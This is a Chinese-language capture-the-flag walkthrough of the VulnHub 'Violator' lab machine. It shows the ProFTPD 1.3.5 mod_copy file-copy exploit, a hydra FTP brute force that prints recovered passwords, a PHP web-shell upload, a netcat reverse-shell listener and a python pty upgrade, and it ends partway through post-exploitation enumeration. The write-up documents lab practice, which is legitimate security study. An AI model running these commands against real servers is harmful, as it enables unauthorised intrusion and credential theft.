


# Violator

> https://download.vulnhub.com/violator/violator.ova

靶场IP：`192.168.32.194`

扫描对外端口

```
─(root💀kali)-[/tmp]
└─# nmap -p 1-65535  -sV 192.168.32.194
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-04 23:22 EDT
Nmap scan report for 192.168.32.194
Host is up (0.00067s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5rc3
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:34:9B:25 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.59 seconds

```

浏览器访问80端口，没有发现有用的目录。


查找FTP漏洞

```
┌──(root💀kali)-[/tmp]
└─# searchsploit ProFTPD 1.3.5
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                                                                  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                                                                        | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                                                                                    | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                                                                                                  | linux/remote/36742.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

使用mod\_copy模块进行利用

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.194
Connected to 192.168.32.194.
220 ProFTPD 1.3.5rc3 Server (Debian) [::ffff:192.168.32.194]
Name (192.168.32.194:root): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> site cpfr /proc/self/root
350 File or directory exists, ready for destination name
ftp> site cpto /var/www/html/root
250 Copy successful
```



获取用户字典

```
┌──(root💀kali)-[/tmp]
└─# cat passwd | awk -F ":" '{print$1}'
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
libuuid
syslog
messagebus
landscape
dg
proftpd
ftp
mg
af
aw
```

根据提示获取密码字典

```
cewl -v 'en.wikipedia.org/wiki/Violator_(album)' -d 1 -w violator.txt
sed 's/ //g' violator.txt > violator_nospaces
cut -d'"' -f2 violator_nospaces | tr '[:upper:]' '[:lower:]' > violator_list
```

暴力破解

```
┌──(root💀kali)-[/tmp]
└─# hydra -L users -P violator_list ftp://192.168.32.194
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-07 22:15:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 644 login tries (l:28/p:23), ~41 tries per task
[DATA] attacking ftp://192.168.32.194:21/
[STATUS] 425.00 tries/min, 425 tries in 00:01h, 219 to do in 00:01h, 16 active
[21][ftp] host: 192.168.32.194   login: dg   password: policyoftruth
[21][ftp] host: 192.168.32.194   login: mg   password: bluedress
[21][ftp] host: 192.168.32.194   login: af   password: enjoythesilence
[21][ftp] host: 192.168.32.194   login: aw   password: sweetestperfection
1 of 1 target successfully completed, 4 valid passwords found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-07 22:16:51
```

使用dg账号登录FTP，并且上传shell

```
ftp> put
(local-file) /opt/shell.php
(remote-file) /var/www/html/shell.php
local: /opt/shell.php remote: /var/www/html/shell.php
200 PORT command successful
150 Opening BINARY mode data connection for /var/www/html/shell.php
226 Transfer complete
5496 bytes sent in 0.00 secs (85.9245 MB/s)
```

使用反弹shell

```
┌──(root💀kali)-[/opt]
└─# nc -lvp 1234                     
listening on [any] 1234 ...
192.168.32.194: inverse host lookup failed: Unknown host
connect to [192.168.32.130] from (UNKNOWN) [192.168.32.194] 43760
Linux violator 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 03:24:50 up 10 min,  0 users,  load average: 0.00, 0.01, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@violator:/$ su dg
su dg
Password: policyoftruth
```

查看sudo列表

```
dg@violator:/$ sudo -l
sudo -l
Matching Defaults entries for dg on violator:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dg may run the following commands on violator:
    (ALL) NOPASSWD: /home/dg/bd/sbin/proftpd
dg@violator:/$ 
```

查看home目录



在`mg`目录，找到`faith_and_devotion`文件

```
dg@violator:/home/mg$ cat faith_and_devotion
cat faith_and_devotion
Lyrics:

* Use Wermacht with 3 rotors
* Reflector to B
Initial: A B C
Alphabet Ring: C B A
Plug Board A-B, C-D
```

在`aw`目录，找到`hint`文件

```
cat hint
You are getting close... Can you crack the final enigma..?
```

在`af`目录，找到`minarke-1.21`文件夹
